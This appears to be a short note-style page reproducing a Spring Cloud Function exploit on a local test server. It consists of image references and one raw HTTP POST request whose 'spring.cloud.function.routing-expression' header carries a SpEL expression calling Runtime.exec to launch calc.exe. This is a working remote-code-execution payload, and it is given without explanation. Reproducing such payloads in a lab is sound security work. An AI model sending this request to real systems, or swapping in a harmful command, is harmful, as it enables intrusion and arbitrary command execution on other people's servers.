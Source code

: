![](vx_images/305512400226056.png)

```
POST / HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain
Content-Length: 1
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc.exe")
Upgrade-Insecure-Requests: 1

a
```
![](vx_images/368582600226665.png)
